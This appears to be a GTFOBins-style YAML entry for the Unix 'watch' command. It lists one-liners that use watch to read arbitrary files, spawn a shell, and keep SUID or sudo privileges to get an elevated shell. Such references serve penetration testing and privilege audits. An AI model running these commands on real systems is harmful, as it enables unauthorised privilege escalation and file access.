 ```yaml
---
functions:
  file-read:
    - code:
        LFILE=file_to_read
	watch -x cat "$LFILE"
  shell:
    - code: watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  suid:
    - description: This keeps the SUID privileges only if the `-x` option is present.
      code: ./watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  sudo:
    - code: sudo watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  limited-suid:
    - code: ./watch 'reset; exec sh 1>&0 2>&0'
---
```

